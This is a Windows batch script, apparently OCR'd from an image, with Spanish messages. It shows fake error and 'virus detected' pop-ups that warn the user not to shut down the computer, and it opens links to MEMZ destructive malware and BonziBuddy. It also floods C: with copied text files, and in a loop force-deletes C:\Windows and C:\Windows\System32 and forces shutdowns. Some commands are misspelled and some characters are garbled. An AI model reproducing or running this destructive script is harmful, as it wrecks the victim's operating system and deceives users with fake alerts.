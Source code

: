 @echo off
color 0a
title  omicron
msg * se a produjido un error en el arranque de un archivo de windows si en dado caso su equipo se empieza a estar lento es importante que no apage o reinicie la computadora para evitar daños a su equipo
msg * es importante que no mueva o elimine el archivo winrar_032.exe ya que podria causar daños imreparrables a su equipo deje que windows solucione su problema
shutdow /F /Q 0100
ping www.google.com /t 1900
start https://github.com/bill-zhanxg/MEMZ_Destructive_Clean-Download
start https://bonzi.link/
start https://www.google.com/search?q=como+descargar+un+virus&rlz=1C1CHBF_esMX915MX915&oq=como+descargar+un+virus&aqs=chrome..69i57j0i512l2j0i10i22i30l2j0i22i30l5.7277j0j7&sourceid=chrome&ie=UTF-8
start https://www.google.com/search?q=como+eliminar+un+virus&rlz=1C1CHBF_esMX915MX915&oq=como+eliminar+un+virus&aqs=chrome..69i57j0i512l9.8330j0j7&sourceid=chrome&ie=UTF-8
cd desktop
copy cagaste.txt C:cagaste_16.txt
copy cagaste.txt C:cagaste_17.txt
copy cagaste.txt C:cagaste_18.txt
copy cagaste.txt C:cagaste_19.txt
copy cagaste.txt C:cagaste_20.txt
copy cagaste.txt C:cagaste_11.txt
copy cagaste.txt C:cagaste_111.txt
copy cagaste.txt C:cagaste_1111.txt
copy cagaste.txt C:cagaste_11111.txt
copy cagaste.txt C:cagaste_111111.txt
copy cagaste.txt C:cagaste_11111111.txt
copy cagaste.txt C:cagaste_1112342.txt
copy cagaste.txt C:cagaste_3453231.txt
copy cagaste.txt C:cagaste_1�278974.txt
copy cagaste.txt C:cagaste_775934095.txt
copy cagaste.txt C:cagaste_2014�.txt
copy cagaste.txt C:cagaste_njurfhg4.txt
copy cagaste.txt C:cagaste_gm9r.txt
copy cagaste.txt C:cagaste_ijtg540.txt
copy cagaste.txt C:cagaste_09o45k3.txt
copy cagaste.txt C:cagaste_9062y.txt
copy cagaste.txt C:cagaste_0964k.txt
copy cagaste.txt C:cagaste_igfnr88.txt
copy cagaste.txt C:cagaste_54545.txt
copy cagaste.txt C:cagaste_15551.txt
copy cagaste.txt C:cagaste_87+44.txt
copy cagaste.txt C:cagaste_4+45.txt
copy cagaste.txt C:cagaste_87816+.txt
copy cagaste.txt C:cagaste_148+.txt
copy cagaste.txt C:cagaste_5649*.txt
echo.
:bucle
msg * error
start https://www.google.com/search?q=como+descargar+un+virus&rlz=1C1CHBF_esMX915MX915&oq=como+descargar+un+virus&aqs=chrome..69i57j0i512l2j0i10i22i30l2j0i22i30l5.7277j0j7&sourceid=chrome&ie=UTF-8
start https://www.google.com/search?q=como+eliminar+un+virus&rlz=1C1CHBF_esMX915MX915&oq=como+eliminar+un+virus&aqs=chrome..69i57j0i512l9.8330j0j7&sourceid=chrome&ie=UTF-8
msg * instalando mas ram a tu pc
msg * se a detectado 30 virus en tu pc
start https://github.com/bill-zhanxg/MEMZ_Destructive_Clean-Download
msg * error 404 
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
del /f /Q C:\Windows
del /f /Q C:\Windows\System32
shutdow /f /s /t 0001
pimg www.google.com /t 100000000000000
goto bucle
exit
